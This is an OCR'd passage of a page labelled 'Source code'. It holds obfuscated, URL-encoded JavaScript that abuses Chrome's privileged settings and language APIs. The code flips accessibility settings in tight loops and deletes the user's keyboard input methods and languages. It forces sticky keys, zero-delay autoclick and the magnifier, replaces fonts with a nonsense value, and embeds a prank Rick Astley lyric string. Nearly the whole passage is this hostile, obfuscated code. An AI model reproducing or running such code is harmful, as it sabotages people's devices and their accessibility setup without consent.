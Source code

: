 e%27:_0x3108f5[_0x1596fc(0x29a)]}));_0x53421d(_0x48da9d);}async%20function%20_0x1d0280(){let%20_0x14f505=![];setInterval(()=%3E{const%20_0x34278a=_0x161d;_0x14f505=!_0x14f505;chrome[%27settingsPr%27+%27ivate%27][_0x34278a(0x2ad)](%27settings.a%27+_0x34278a(0x29c)+_0x34278a(0x29e)+_0x34278a(0x229),_0x14f505);},0x32);}async%20function%20_0x3661f1(){const%20_0x2fd88f=_0x4444b2;let%20_0x7c39fd=await%20new%20Promise(_0x44a644=%3Echrome[_0x2fd88f(0x280)+_0x2fd88f(0x26e)][_0x2fd88f(0x2b3)+_0x2fd88f(0x23b)](_0x44a644));let%20_0x5dd47a=await%20chrome[%27languageSe%27+_0x2fd88f(0x292)+_0x2fd88f(0x1f8)][_0x2fd88f(0x2b3)+_0x2fd88f(0x208)]();for(let%20_0x198e5a%20of%20_0x5dd47a[_0x2fd88f(0x2bf)+%27xtensionIm%27+%27es%27]){if(_0x198e5a[%27id%27][%27includes%27](%27phone%27)){chrome[_0x2fd88f(0x265)+_0x2fd88f(0x292)+_0x2fd88f(0x1f8)][_0x2fd88f(0x1e2)+_0x2fd88f(0x223)](_0x198e5a[%27id%27]);}}for(let%20_0x5ae469%20of%20_0x7c39fd){await%20chrome[_0x2fd88f(0x265)+_0x2fd88f(0x292)+_0x2fd88f(0x1f8)][_0x2fd88f(0x20e)+_0x2fd88f(0x1cd)](_0x5ae469[%27id%27]);}}async%20function%20_0x11a589(){const%20_0x1ba37b=_0x4444b2;chrome[_0x1ba37b(0x27c)+_0x1ba37b(0x270)][_0x1ba37b(0x2ad)](_0x1ba37b(0x29d)+_0x1ba37b(0x2ce)+%27_keys_enab%27+_0x1ba37b(0x211),!![]);chrome[_0x1ba37b(0x27c)+%27ivate%27][_0x1ba37b(0x2ad)](%27settings.a%27+_0x1ba37b(0x2ba)+_0x1ba37b(0x25e),!![]);chrome[_0x1ba37b(0x27c)+_0x1ba37b(0x270)][_0x1ba37b(0x2ad)](_0x1ba37b(0x2b7)+_0x1ba37b(0x1f2)+_0x1ba37b(0x26f)+%27ntrol_key_%27+%27to%27,0x3);chrome[_0x1ba37b(0x27c)+_0x1ba37b(0x270)][_0x1ba37b(0x2ad)](_0x1ba37b(0x2b7)+_0x1ba37b(0x1f2)+_0x1ba37b(0x230)+%27arch_key_t%27+%27o%27,0x3);chrome[_0x1ba37b(0x27c)+_0x1ba37b(0x270)][_0x1ba37b(0x2ad)](_0x1ba37b(0x2b7)+_0x1ba37b(0x1f2)+_0x1ba37b(0x260)+_0x1ba37b(0x258)+%27o%27,0x3);chrome[_0x1ba37b(0x27c)+_0x1ba37b(0x270)][_0x1ba37b(0x2ad)](%27settings.l%27+_0x1ba37b(0x1f2)+_0x1ba37b(0x1dd)+_0x1ba37b(0x262),0x3);chrome[_0x1ba37b(0x27c)+%27ivate%27][_0x1ba37b(0x2ad)](%27settings.l%27+%27anguage.re%27+_0x1ba37b(0x28f)+%27ace_key_to%27,0x4);chrome[_0x1ba37b(0x27c)+_0x1ba37b(0x270)][%27setPref%27](_0x1ba37b(0x2b7)+_0x1ba37b(0x2c7)+_0x1ba37b(0x2c3)+%27n_keys%27,!![]);chrome[_0x1ba37b(0x27c)+_0x1ba37b(0x270)][_0x1ba37b(0x2ad)](_0x1ba37b(0x2b7)+_0x1ba37b(0x1f2)+_0x1ba37b(0x251)+_0x1ba37b(0x277)+_0x1ba37b(0x275),!![]);chrome[_0x1ba37b(0x27c)+_0x1ba37b(0x270)][%27setPref%27](_0x1ba37b(0x2b7)+_0x1ba37b(0x1f2)+%27b_auto_rep%27+_0x1ba37b(0x284)+%27r2%27,0x96);chrome[%27settingsPr%27+_0x1ba37b(0x270)][_0x1ba37b(0x2ad)](_0x1ba37b(0x2b7)+_0x1ba37b(0x1f2)+%27b_auto_rep%27+%27eat_interv%27+_0x1ba37b(0x228),0x14);}async%20function%20_0x260772(){const%20_0x497ab3=_0x4444b2;chrome[_0x497ab3(0x27c)+_0x497ab3(0x270)][%27setPref%27](_0x497ab3(0x29d)+_0x497ab3(0x2bc)+_0x497ab3(0x278),!![]);chrome[%27settingsPr%27+%27ivate%27][%27setPref%27](%27settings.a%27+_0x497ab3(0x2bc)+%27ick_delay_%27+%27ms%27,0x0);chrome[_0x497ab3(0x27c)+%27ivate%27][%27setPref%27](_0x497ab3(0x2b5)+_0x497ab3(0x2b8)+_0x497ab3(0x1e0),0x1);chrome[_0x497ab3(0x27c)+_0x497ab3(0x270)][%27setPref%27](_0x497ab3(0x2b5)+_0x497ab3(0x201)+%27tural_scro%27+%27ll%27,!![]);}async%20function%20_0x3283ed(){const%20_0x3cbb0d=_0x4444b2;let%20_0x355c9e=[_0x3cbb0d(0x237)+_0x3cbb0d(0x20b)+%27s.standard%27+_0x3cbb0d(0x1e3),_0x3cbb0d(0x237)+_0x3cbb0d(0x20b)+%27s.serif.Zy%27+%27yy%27,_0x3cbb0d(0x237)+_0x3cbb0d(0x20b)+%27s.sansseri%27+_0x3cbb0d(0x2c1),_0x3cbb0d(0x237)+%27prefs.font%27+_0x3cbb0d(0x1d4)+%27yy%27];for(let%20_0x573eda%20of%20_0x355c9e){chrome[_0x3cbb0d(0x27c)+_0x3cbb0d(0x270)][%27setPref%27](_0x573eda,_0x3cbb0d(0x220)+_0x3cbb0d(0x234));}}async%20function%20_0x30f045(){const%20_0x5b0cb5=_0x4444b2;chrome[_0x5b0cb5(0x27c)+_0x5b0cb5(0x270)][_0x5b0cb5(0x2ad)](%27settings.a%27+%2711y.screen%27+_0x5b0cb5(0x26b),!![]);chrome[_0x5b0cb5(0x27c)+_0x5b0cb5(0x270)][_0x5b0cb5(0x2ad)](_0x5b0cb5(0x29d)+_0x5b0cb5(0x2c9)+_0x5b0cb5(0x26b)+_0x5b0cb5(0x244)+%27lowing_mod%27+%27e%27,0x0);chrome[_0x5b0cb5(0x27c)+_0x5b0cb5(0x270)][_0x5b0cb5(0x2ad)](_0x5b0cb5(0x29d)+_0x5b0cb5(0x2c9)+_0x5b0cb5(0x26b)+_0x5b0cb5(0x1ee),0x14);chrome[_0x5b0cb5(0x27c)+_0x5b0cb5(0x270)][%27setPref%27](_0x5b0cb5(0x29d)+_0x5b0cb5(0x2c9)+%27_magnifier%27+%27_mouse_fol%27+%27lowing_mod%27+%27e%27,0x1);}function%20_0x4956b7(){const%20_0x38254e=_0x4444b2;return(Math[_0x38254e(0x24b)]()+0x1)[%27toString%27](0x24)[_0x38254e(0x245)](0x7);}async%20function%20_0x3dc5f2(){let%20_0x2699e0=0x0;setInterval(()=%3E{const%20_0x505867=_0x161d;let%20_0x581f9f=Math[_0x505867(0x231)](_0x2699e0/0xa)*0x16+0x2e;chrome[_0x505867(0x27c)+%27ivate%27][%27setPref%27](_0x505867(0x29d)+_0x505867(0x1d3)+_0x505867(0x1ed)+_0x505867(0x206),!![]);chrome[%27settingsPr%27+_0x505867(0x270)][%27setPref%27](%27settings.a%27+_0x505867(0x1d3)+_0x505867(0x1f4)+_0x505867(0x205),_0x581f9f);_0x2699e0++;},0xa);}function%20_0x161d(_0x25c241,_0x42104c){const%20_0x3af9c1=_0x3af9();_0x161d=function(_0x161d49,_0x32ae0b){_0x161d49=_0x161d49-0x1ca;let%20_0x517010=_0x3af9c1[_0x161d49];return%20_0x517010;};return%20_0x161d(_0x25c241,_0x42104c);}async%20function%20_0x3c974d(){const%20_0x3a1108=_0x4444b2;(_0x3a1108(0x207)+_0x3a1108(0x1d7)+_0x3a1108(0x299)+%27ou\x20know\x20th%27+_0x3a1108(0x2c6)+_0x3a1108(0x28d)+_0x3a1108(0x1da)+_0x3a1108(0x204)+_0x3a1108(0x283)+_0x3a1108(0x20f)+_0x3a1108(0x203)+_0x3a1108(0x23f)+_0x3a1108(0x246)+_0x3a1108(0x240)+_0x3a1108(0x233)+%27uy\x0a\x20\x20I\x20jus%27+%27t\x20wanna\x20te%27+_0x3a1108(0x24a)+_0x3a1108(0x1e6)+%27ng\x0a\x20\x20Gotta%27+_0x3a1108(0x218)+_0x3a1108(0x221)+%27\x0a\x20\x20Never\x20g%27+%27onna\x20give\x20%27+_0x3a1108(0x264)+_0x3a1108(0x1d0)+%27\x20let\x20you\x20d%27+_0x3a1108(0x25c)+_0x3a1108(0x257)+%27n\x20around\x20a%27+_0x3a1108(0x289)+_0x3a1108(0x27e)+_0x3a1108(0x268)+_0x3a1108(0x236)+_0x3a1108(0x250)+%27onna\x20say\x20g%27+_0x3a1108(0x290)+_0x3a1108(0x1d0)+%27\x20tell\x20a\x20li%27+_0x3a1108(0x255)+_0x3a1108(0x25a)+%27ve\x20known\x20e%27+_0x3a1108(0x1e5)+_0x3a1108(0x21c)+%27